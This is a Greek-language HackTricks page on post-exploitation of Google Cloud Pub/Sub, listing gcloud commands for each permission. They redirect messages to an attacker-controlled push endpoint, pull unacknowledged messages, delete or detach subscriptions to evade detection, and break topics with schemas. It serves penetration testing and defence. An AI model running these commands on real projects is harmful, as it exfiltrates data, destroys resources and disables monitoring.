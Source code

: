 # GCP - Pub/Sub Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Pub/Sub

Για περισσότερες πληροφορίες σχετικά με το Pub/Sub, ελέγξτε την παρακάτω σελίδα:

{{#ref}}
../gcp-services/gcp-pub-sub.md
{{#endref}}

### `pubsub.topics.publish`

Δημοσιεύστε ένα μήνυμα σε ένα θέμα, χρήσιμο για **να στείλετε απροσδόκητα δεδομένα** και να ενεργοποιήσετε απροσδόκητες λειτουργίες ή να εκμεταλλευτείτε ευπάθειες:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Χρήσιμο για να αποτρέψει μια συνδρομή από το να λαμβάνει μηνύματα, ίσως για να αποφευχθεί η ανίχνευση.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Χρήσιμο για να αποτρέψει μια συνδρομή από το να λαμβάνει μηνύματα, ίσως για να αποφευχθεί η ανίχνευση.\
Είναι δυνατόν να διαγραφεί ένα θέμα ακόμη και με συνδρομές συνδεδεμένες σε αυτό.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Χρησιμοποιήστε αυτήν την άδεια για να ενημερώσετε κάποιες ρυθμίσεις του θέματος για να το διαταράξετε, όπως `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Δώστε στον εαυτό σας άδεια να εκτελέσει οποιαδήποτε από τις προηγούμενες επιθέσεις.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Αποκτήστε όλα τα μηνύματα σε έναν διακομιστή ιστού:
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
Δημιουργήστε μια συνδρομή και χρησιμοποιήστε την για **να τραβήξετε μηνύματα**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Η διαγραφή μιας συνδρομής** θα μπορούσε να είναι χρήσιμη για να διαταράξει ένα σύστημα επεξεργασίας καταγραφών ή κάτι παρόμοιο:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Χρησιμοποιήστε αυτήν την άδεια για να ενημερώσετε κάποιες ρυθμίσεις ώστε τα μηνύματα να αποθηκεύονται σε ένα μέρος που μπορείτε να έχετε πρόσβαση (URL, Big Query table, Bucket) ή απλώς για να το διαταράξετε.
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
### `pubsub.subscriptions.setIamPolicy`

Δώστε στον εαυτό σας τις άδειες που χρειάζεστε για να εκτελέσετε οποιαδήποτε από τις προηγουμένως σχολιασμένες επιθέσεις.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Επιτεθείτε σε ένα σχήμα σε ένα θέμα ώστε τα μηνύματα να μην το πληρούν και επομένως το θέμα να διαταραχθεί.\
Αν δεν υπάρχουν σχήματα, ίσως χρειαστεί να δημιουργήσετε ένα.
```json:schema.json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```

```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Αυτό μπορεί να φαίνεται σαν να διαγράφετε ένα σχήμα, αλλά θα μπορείτε να στέλνετε μηνύματα που δεν πληρούν το σχήμα. Ωστόσο, καθώς το σχήμα θα διαγραφεί, κανένα μήνυμα δεν θα εισέλθει πραγματικά μέσα στο θέμα. Έτσι, αυτό είναι **ΑΧΡΗΣΤΟ**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Δώστε στον εαυτό σας τις άδειες που χρειάζεστε για να εκτελέσετε οποιαδήποτε από τις προηγουμένως σχολιασμένες επιθέσεις.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Αυτό θα δημιουργήσει ένα στιγμιότυπο όλων των μη ACKed μηνυμάτων και θα τα επιστρέψει στη συνδρομή. Όχι πολύ χρήσιμο για έναν επιτιθέμενο, αλλά εδώ είναι:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{{#include ../../../banners/hacktricks-training.md}}
